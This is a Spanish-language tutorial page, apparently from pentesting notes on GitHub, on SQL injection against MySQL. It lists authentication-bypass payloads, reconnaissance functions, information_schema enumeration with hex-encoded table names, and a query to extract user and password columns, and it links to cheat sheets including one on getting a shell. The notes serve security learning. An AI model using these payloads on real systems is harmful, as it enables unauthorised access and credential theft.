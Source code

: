 # SQL Injection

Esta vulnerabilidad consiste en inyectar código SQL invasor dentro del código SQL programado, con el objetivo de alterar el funcionamiento del programa.

Una **aproximación a la query** suele ser:

```SQL
SELECT * FROM <x> WHERE <y>=___ ;
```

o

```SQL
SELECT * FROM <x> WHERE <y> LIKE '% ___ %';
```

## MySQL database

Una manera de conocer si la DB es **vulnerable**, es poniendo en la query un `'`. Si vemos que la DB devuelve algún error, eso puede ser indicio de que es vulnerable.

Es **importante** jugar con las comillas (`'`), ya que dependiendo del nivel de seguridad, se podrán usar o no. También hay que tener en cuenta los carácteres al final de la sentencia. Algunos que se pueden usar son `--`, `--+` o `#` (para comentar el resto de la query en el backend).

Algunas de las **consultas básicas** que se usan en este tipo de ataque son:

```TXT
1' OR 1=1--'
1' OR '1' = '1
'OR"='
' OR 1=1--'
' OR 0=0 --'
' OR 'x'='x
```

Estas inyecciones son de gran utilidad:

- `version()` o `@@version`: muestra la version del servidor MySQL.
- `database()`: muestra el nombre de la base de datos actual.
- `current_user()`: muestra la el nombre de usuario y el del host para el que esta autentificada la conexión actual. Este valor corresponde a la cuenta que se usa para  evaluar los privilegios de acceso. Puede ser diferente del valor de `USER()`.
- `@@username`: muestra el usuario actual
- `last_insert_id()`: devuelve el último valor generado automáticamente que fue insertado en una columna de tipo `AUTO_INCREMENT`.
- `connection_id()`: muestra la el ID de una conexión. Cada conexión tiene su propio y único identificador.
- `@@datadir`: muestra el directorio de la base de datos.

Primero, es importante saber con cuantas **columnas** trabajamos o podemos trabajar. Para ello podemos jugar con la sentencia `ORDER BY`.

Podemos conocer el **nombre y versión** de la DB añadiendo a la query

```SQL
SELECT database(), version()
```

Para obtener **[todas las tablas](https://dev.mysql.com/doc/refman/8.0/en/tables-table.html)** de la DB, se puede hacer añadiendo la consulta:

```SQL
SELECT table_name FROM information_schema.tables
```

Si queremos ver **todas las columnas de una tabla**, podemos hacerlo con la siguiente query:

```SQL
SELECT column_name FROM information_schema.columns
WHERE table_name=char(117,115,101,114,115)
```

o

```SQL
SELECT column_name FROM  information_schema.columns WHERE table_name=0x7573657273
```

En el ejemplo anterior, se intenta buscar todas las columnas de la tabla _users_, pero en la query no se puede poner tal cual _users_, si no que se ha de [pasar a decimal o hexadecimal](https://cryptii.com/pipes/text-decimal). (_users en decimal es 117 115 101 114 115 y en hexadecimal es 0x7573657273_)

Si deseamos obtener datos de alguna columna concreta (en este caso intentaremos obtener _user_ y _password_), deberemos añadir lo siguiente a la query:

```SQL
SELECT user, password FROM users
```

## Enlaces de interes

[SQL Injection Cheat Sheet](http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet)

[SQL Injection Attacks by Example](http://www.unixwiz.net/techtips/sql-injection.html)

[Use SQL Injection to Run OS Commands & Get a Shell](https://null-byte.wonderhowto.com/how-to/use-sql-injection-run-os-commands-get-shell-0191405/)
